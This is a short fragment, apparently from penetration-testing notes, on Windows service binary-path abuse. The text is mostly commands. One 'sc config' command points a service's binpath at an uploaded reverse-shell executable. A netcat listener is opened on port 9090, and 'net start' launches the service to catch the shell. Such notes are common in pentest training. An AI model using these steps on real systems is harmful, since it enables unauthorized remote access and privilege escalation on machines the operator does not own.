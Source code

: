 - - -

Transfer you reverse shell on the target machine.

Now set the binanry path to the location of the reverse shell.

```powershell
sc config <service_name> binpath= "\'C:\temp\reverse.exe\''"
```

```sh
nc -nvlp 9090
```

```powershell
net start <service_name>
```

- - -

